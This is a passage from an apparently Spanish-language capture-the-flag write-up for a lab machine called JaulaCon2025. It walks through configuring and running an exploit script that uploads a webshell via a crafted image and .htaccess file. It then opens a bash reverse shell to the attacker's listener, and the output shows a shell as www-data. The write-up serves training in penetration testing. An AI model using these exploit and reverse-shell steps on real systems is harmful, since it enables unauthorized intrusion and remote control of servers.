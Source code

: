 * Modificamos el Exploit para agregar la URL, el usuario y la contraseña:
```python
url = 'http://192.168.1.240'  # CHANGE ME
username = 'Jaulacon2025'  # CHANGE ME
password = 'cassandra'  # CHANGE ME
```

* Con esto listo, ejecutamos el Exploit:
```bash
python3 DT_exploit.py
cookie: b45c9uo1buvrvi0jp1ldfm6upi
csrf_token: d43ac503b3113001022bcb458f0d728d88b5077c
Uploading payload: evil.png
Uploading payload: .htaccess
```
Parece que funciono.

* Visitemos la **WebShell** y probemos a ejecutar un comando:

<p align="center">
<img src="/assets/images/THL-writeup-jaulaCon2025/Captura12.png">
</p>

Funciono correctamente.

Ya solo tenemos que obtener una sesión.

Abre una **netcat**:
```bash
nc -nlvp 443
listening on [any] 443 ...
```

Ejecuta la siguiente **Reverse Shell** en la **WebShell**:
```bash
bash -c 'bash -i >%26 /dev/tcp/Tu_IP/443 0>%261'
```

<p align="center">
<img src="/assets/images/THL-writeup-jaulaCon2025/Captura15.png">
</p>

Observa la **netcat**:
```bash
nc -nlvp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.1.240] 36898
bash: cannot set terminal process group (514): Inappropriate ioctl for device
bash: no job control in this shell
www-data@JaulaCon2025:/var/www/html/bl-content/tmp/temp$
```

